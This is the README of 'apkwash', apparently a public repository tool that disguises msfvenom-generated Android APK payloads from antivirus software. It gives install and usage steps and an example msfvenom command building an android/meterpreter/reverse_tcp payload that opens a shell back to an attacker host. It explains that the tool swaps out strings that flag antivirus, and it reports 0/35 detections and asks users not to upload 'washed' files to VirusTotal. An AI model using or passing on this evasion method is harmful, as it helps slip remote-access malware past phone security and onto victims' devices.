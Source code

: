 # apkwash
Android APK Antivirus evasion for msfvenom generated payloads.
<br><br>
<b> -- Please do not upload "washed" files to VirusTotal.com -- </b><br>
<br>
<b>Dependencies:</b><br>
apt-get install lib32stdc++6 lib32ncurses5 lib32z1<br>
<br>
<b>Setup:</b><br>
chmod +x apkwash<br>
mv apkwash /usr/local/bin/.<br>
<br>
<b>Usage:</b><br>
apktool \<payload>.apk<br>
<br>
<b>Input:</b><br>
This script takes a msfgenerated payload as input.<br>
Ex: msfvenom -p android/meterpreter/reverse_tcp LHOST=<IP> LPORT<PORT> -o \<payload>.apk<br>
<br>
<b>Output:</b><br>
washed_\<payload>.apk<br>
<br>
<b>Antivirus detection:</b><br>
0/35 on nodistribute - 16Feb17<br>
Verified for AVG mobile<br>
Verified for Kaspersky mobile<br>
<br>
<b>Modifiations</b><br>
Feel free to open the script and make improvements. This script basically utilizes APKTool to open the package, uses sed to replace strings that flag AV, recompiles, then signs.<br>
<br>
<b>Debugging</b><br>
Comment out the removal of the /tmp/payload directory to see the file structure that was compiled.<br>
